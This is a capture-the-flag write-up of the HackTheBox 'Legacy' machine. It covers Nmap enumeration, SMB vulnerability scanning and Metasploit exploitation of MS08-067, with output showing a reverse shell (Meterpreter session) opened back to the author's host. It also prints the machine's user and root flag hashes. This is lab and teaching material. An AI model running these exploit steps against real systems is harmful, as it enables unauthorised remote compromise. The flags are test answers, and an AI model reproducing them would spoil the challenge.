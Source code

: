 ```yaml
---
title: HackTheBox - Legacy
date: 2020-08-20 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [legacy]
author: Connor Weeks-Pearson
image: /assets/img/Icons/legacy.png
---
```



As the oldest machine on HackTheBox, i thought Legacy would be the perfect machine to start with. It was a  nice and easy first box - requiring simple enumeration following a simple SMB vulnerability exploit to gain root access.

***Machine IP = 10.10.10.4***

---

## RECON AND INFORMATION GATHERING
### Nmap


<pre>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:04 BST
Nmap scan report for 10.10.10.4
Host is up (0.055s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h31m22s, deviation: 2h07m16s, median: 4d23h01m22s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:47:5e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-24T16:05:41+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.16 seconds
</pre>

An old machine, running Windows XP 2000. SMB is discovered on port 139. Time to delve deeper. Scan for SMB vulnerabilities on port 139.

<pre>
root@kali:~# nmap --script smb-vuln* -p 139 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:23 BST
Nmap scan report for 10.10.10.4
Host is up (0.052s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
</pre>

Two CVE's returned:
- CVE-2008-4250 - smb-vuln-ms08-067
- CVE-2017-0143 - smb-vuln-ms17-010

Now onto Metasploit to gain access to machine.

---

## Exploiting
### Metasploit

<pre>

msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.4:1031) at 2020-07-19 12:31:48 +0100

meterpreter > 
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
</pre>

It seems we have access to the machine! Time to find some flags.

<pre>
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings\Administrator\Desktop>type root.txt	
993442d258b0e0ec917cae9e695d5713
</pre>

First machine completed! Although there is another option to exloit via ms17-010, the results would be the same. Was a nice easy machine to say the least. Onto the next!